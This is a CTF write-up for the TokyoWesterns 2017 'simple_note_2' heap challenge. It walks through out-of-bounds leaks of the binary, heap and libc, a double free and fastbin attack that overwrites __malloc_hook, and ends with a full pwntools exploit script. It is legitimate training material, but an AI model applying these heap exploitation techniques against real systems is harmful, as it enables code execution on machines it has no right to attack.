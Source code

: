 ```yaml
---
layout: post
comments: true
title: Note Version 2 - TokyoWesterns'17 (148pts)
---
```


Second part of the note challenge.

```
gef➤  checksec 
[+] checksec for '/home/sanat/tokyo-westerns'17/simple_note_2'
Canary                        : Yes →  value: 0x3eecb7f615243000
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
gef➤  

```

This time full RelRO.

There is OOB (Out of bounds error) in all functions that take input for index.

`
Input index of note.
-4
Content:� ��
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
1. Add a note.
2. Show a note.
3. Delete a note.
4. Exit.
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
Your choice:

So whatever index we pass, it dereferences it and then prints out its content. Sadly we can't leak libc like this since we would need a pointer to a libc function. But few bytes behind, we have a target which can easily leak the .text section of the binary.

`

gef➤  x/20xg 0x0000000100000000 + 0x202060 - 128
0x100201fe0:	0x00007ffff7a784d0	0x00007ffff7a47030
0x100201ff0:	0x0000000000000000	0x00007ffff7a472d0
0x100202000:	0x0000000000000000	0x0000000100202008 <-- Target
0x100202010:	0x0000000000000000	0x0000000000000000
0x100202020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x100202030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x100202040 <stderr>:	0x00007ffff7dd2540	0x0000000000000000
0x100202050:	0x0000000000000000	0x0000000000000000
0x100202060:	0x0000000100203010	0x0000000000000000 <-- Start of our list array which holds pointers to heap.
0x100202070:	0x0000000000000000	0x0000000000000000

```

## Heap Leak

Our input string is not null terminated. So we can do a heap spray of fastbins and leak heap. ( We can also leak arena pointers but there is a much better way to do that).

```

gef➤  x/20xg 0x100203000
0x100203000:	0x0000000000000000	0x0000000000000021
0x100203010:	0x0000000000000000	0x0000000000000000
0x100203020:	0x0000000000000000	0x0000000000000021
0x100203030:	0x000000010020300a	0x0000000000000000 <-- our \x0a is not null terminated
0x100203040:	0x0000000000000000	0x0000000000020fc1

```

## Libc Leak

Now since we know .text address and heap base, we know the distance and hence can calculate the distance. Divide by 8 and we get index. So now we technically control out pointer. We can just set a pointer to got address as our heap data (when creating new note) and then pass in that index. Likewise we set a pointer to a note also and thus possess 2 pointers to 1 note --> double free --> fastbin attack --> straightforward malloc_hook attack.

## Malloc_hook Attack

There's a blog by [uafio](uaf.io) where he describes how to create a fastbin near malloc_hook.

```
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260
gef➤  
0x7ffff7dd1af8:	0x0000000000000000
gef➤  
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20
gef➤  
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00
gef➤  
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000
```
We overwrite with magic gadget.

## Full exploit code.

```
#!/usr/bin/python
from pwn import *

elf = ELF("./libc.so.6")
p = remote("pwn2.chal.ctf.westerns.tokyo", 18554)
#p = process("./simple_note_2",env={"LD_PRELOAD":"./libc.so.6"})
raw_input()

def menu():
	p.recvuntil("choice:")

def add_note(size,content):
	menu()
	p.sendline("1")
	p.recvuntil("note.")
	p.sendline(str(size))
	p.recvuntil("note.")
	p.sendline(content)

def show_note(idx,n):
	menu()
	p.sendline("2")
	p.recvuntil("note.")
	p.sendline(str(idx))
	p.recvuntil("Content:")
	return p.recv(n)

def delete_note(idx):
	menu()
	p.sendline("3")
	p.recvuntil("note.")
	p.sendline(str(idx))

# Use index to leak. Then put index = m such that it points to heap !!
# Then freeing can cause double free.

lol = "A"*11
leak = show_note(-11,6)
print leak
print len(leak)
leak += "\x00"*2
leak = u64(leak)
text = leak - 0x202008
log.info("Text section: " + hex(text))

start = text + 0x202060

puts_got = text + 0x0000000000201f90

# Leak heap.
add_note(100,lol)
add_note(100,lol)
delete_note(1)
delete_note(0)
add_note(100,"")

leak = show_note(0,6)
leak += "\x00"*2
leak = u64(leak)
heap = leak - 0xa
log.info("Heap: " + hex(heap))

# set got address.
delete_note(0)
victim = heap + 0x80
buf = p64(puts_got)
buf += p64(victim)
add_note(100,buf)

# Now attack.
index = (heap - start)/8
index += 2

leak = show_note(index,6)
leak += "\x00"*2
leak = u64(leak)
libc = leak - elf.symbols['puts']
log.info("Libc: " + hex(libc))

# Double free.
delete_note(0)
index+=1
delete_note(index)

malloc_hook = libc + 0x3c4af5-8
buf = p64(malloc_hook)
add_note(100,buf)

lol = "X"*8
lol += p64(victim)
add_note(100,lol)
add_note(100,lol)

magic = libc + 0x4526a
magic = libc + 0xf0274

buf = "X"*19
buf += p64(magic)
add_note(100,buf)

# Trigger double free error.
print index
#p.interactive()
delete_note(index)
delete_note(0)

p.interactive()
```
